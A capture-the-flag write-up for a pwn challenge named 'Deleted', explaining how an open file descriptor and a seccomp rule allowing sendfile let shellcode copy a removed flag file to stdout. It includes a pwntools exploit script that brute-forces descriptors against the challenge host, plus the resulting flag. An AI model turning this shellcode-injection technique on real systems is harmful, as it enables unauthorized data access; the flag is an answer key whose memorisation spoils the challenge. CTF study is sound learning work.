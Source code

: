 ![](https://i.imgur.com/pP4sEqo.png)

> [200 points]
> Deleted
> We've removed your flag. Good luck getting it back.
> Flag format: CTF{32-hex}"

The program is pretty simple to read and understand. I've commented the provided code and refactored it slightly so it's easier to follow:

```
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <seccomp.h>
#include <sys/mman.h>
#include <limits.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <string.h>

/* 
 * C black magic to define a function type called void_fn 
 * which takes no parameters (void)
 * and returns nothing (void)
 */
typedef void (*void_fn)(void);

void setup_seccomp(void);

int main(void) {
	// unbuffered output to stdout
    setbuf(stdout, NULL);
	
	// open the flag.txt file
    FILE * fptr = fopen("flag.txt","r");
	
	// read its file descriptor index and print it
    int fd = fileno(fptr);
    printf("%d\n", fd);
	
    puts("Goodbye flag!");

	// remove the flag.txt file
    int ret = remove("flag.txt");
    if (ret == 0) {
        puts("Flag file successfully removed.");
    } else {
        puts("Error removing flag file");
        exit(-1);
    }

    puts("What do you have to say about us so carelessly removing your precious flag?");
	
	// make a readable, writable and executable buffer of 4096 bytes
    void * buf = mmap(0, 4096, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS|MAP_PRIVATE, -1, 0);
    void_fn sc = (void_fn) buf;
	
	// read 100 bytes from stdin into the buffer
    ssize_t num_read = read(0, buf, 100);

	// setup seccomp stuff - see setup_seccomp function below
    setup_seccomp();
	
	// execute the input buffer (ie. execute whatever was supplied by the user)
    sc();

    return 0;
}

void setup_seccomp() {
    scmp_filter_ctx ctx;
	
	// initialise seccomp and set it to kill the process 
	// if it attempts to bypass seccomp restrictions 
    ctx = seccomp_init(SCMP_ACT_KILL);
    int ret = 0;
	
	// add a rule to allow sendfile system calls
    ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(sendfile), 0);
	
	// load the current context
    ret |= seccomp_load(ctx);
	
	// exit on failure of any of the above
    if (ret) {
        exit(1);
    }
}

```

From this code, we can see a few things happening which in the end allow us to retrieved the flag.

We can see that the flag file pointer is open and therefore should have an open file descriptor for it:
```
    FILE * fptr = fopen("flag.txt","r");
```
This file is never closed which means the file descriptor is accessible until the program exits or finishes.

When I did this challenge, I didn't realise that the file descriptor index is printed when the program starts:
```
	// read its file descriptor index and print it
    int fd = fileno(fptr);
    printf("%d\n", fd);
```
However, its not really needed since you can just bruteforce it. I'll showcase the bruteforce solution in this writeup, however a smarter exploit would have used this leak to minimize the requests required.

We can also see the application is using seccomp to protect the process from executing most system calls. However, the following line adds the ability to use the `sendfile` syscall:
```
	ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(sendfile), 0);
```

Base on the manual page of the `sendfile` syscall, we can see that this syscall is used to copy data between 2 file descriptors:
```
% man sendfile
  sendfile()  copies  data between one file descriptor and another.  Because this copying is done
       within the kernel, sendfile() is more efficient than the combination of read(2)  and  write(2),
       which would require transferring data to and from user space.
[...]
```

Furthermore, on linux systems, the standard output (stdout) of a program is a stream that can be accessed via it's file descriptor. As described in the man pages, we know that standard output by default will start as file descriptor 1:
```
% man stdout
Under  normal  circumstances  every UNIX program has three streams opened for it when it starts up, one for input, one for output, and one for printing diagnostic or  error  messages.
[...]
Each  of  these symbols is a stdio(3) macro of type pointer to FILE, and can be used with functions like fprintf(3) or fread(3).
[...]
On program startup, the integer file descriptors associated with the streams stdin, stdout, and stderr  are  0,  1, and 2, respectively.
[...]
```

Lastly, we saw from the code that the programs takes user input into a buffer and attempts to execute that code:
```
	// read 100 bytes from stdin into the buffer
    ssize_t num_read = read(0, buf, 100);

[...]
	
	// execute the input buffer (ie. execute whatever was supplied by the user)
    sc();
```

At this point, we have all the information we need to write an exploit for this app:
- We need to write shellcode which will get executed by the application
- The shellcode can make use of the sendfile system call
- We need to read the flag file from an open file descriptor and copy it to stdout (filedescriptor 1)

We use pwntools since it has all the tools we need to connect to the port and contains utilities to craft shellcode including a sendfile system call via  `shellcraft.amd64.linux.sendfile` :
```
from pwn import *

# flag length
# CTF{32-hex} | 5 known chars and 32 unknow = 37 chars
flag_len = 37

stdout_fd = 1

// bruteforce the filedescriptors 
// because you rushed it and didn't read the code properly :)
for tentative_fd in range(10):
    print("tentative_fd=", tentative_fd)
	
	// connect to the port with the app
    r = remote("portal.hackazon.org",17004)
	
	// send our sendfile shellcode
    r.send(asm(shellcraft.amd64.linux.sendfile(stdout_fd,tentative_fd,0,flag_len), arch='amd64'))
    print(r.recvall())
    r.close()
```

Running the exploit, we find that the flag file is at index 5 and we managed to copy to stdout and receive it:
![](https://i.imgur.com/Hk0ZT6l.png)

> Flag: CTF{5decd42da5fb3c9b1dc0b4dd12a4bd7c}